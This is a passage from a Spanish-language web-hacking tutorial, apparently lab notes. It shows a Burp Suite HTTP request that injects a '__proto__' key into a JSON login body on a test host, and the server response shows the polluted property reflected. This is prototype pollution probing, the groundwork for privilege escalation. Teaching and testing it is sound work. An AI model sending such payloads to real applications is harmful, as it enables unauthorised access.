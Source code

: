 ```
POST /dashboard.php HTTP/1.1
Host: app.dl
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://app.dl/dashboard.php
Content-Type: application/json
Content-Length: 37
Origin: http://app.dl
Connection: keep-alive
Cookie: PHPSESSID=neokpt9n1876qjdr7j946q5kl2
Priority: u=0

{
    "username": "user",
    "password": "user123",
    "__proto__":{ 
	    "var": "test" 
	}
}
```

Ahora si enviamos esta peticion y activamos antes de enviarla en `BurpSuite` la respuesta del servidor para ver como se esta procesando:

<figure><img src="../../.gitbook/assets/image (291).png" alt=""><figcaption></figcaption></figure>

Ahora lo enviaremos y veremos lo siguiente en la respuesta del servidor o lo podremos enviar al `Repeater` con `Ctrl+R` que es mucho mas recomendable:

```
HTTP/1.1 200 OK
Date: Wed, 12 Mar 2025 13:24:03 GMT
Server: Apache/2.4.58 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 69
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: application/json

{
    "username": "user",
    "password": "user123",
    "isAdmin":false,
    "var":"test"
}
```
